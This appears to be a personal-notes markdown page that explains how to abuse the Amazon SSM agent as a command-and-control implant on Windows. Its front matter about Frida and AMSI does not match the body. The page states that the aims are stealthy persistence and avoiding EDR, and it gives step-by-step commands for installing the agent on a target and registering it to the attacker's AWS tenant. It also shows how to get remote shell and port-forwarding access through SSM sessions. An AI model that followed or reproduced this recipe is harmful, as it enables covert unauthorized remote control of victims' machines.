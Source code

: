```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
date: 2025-05-28
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. 

Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.  
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as a local administrator.  
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.  
Step 4: Create a new hybrid activation. Record the activation code and ID.  

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`
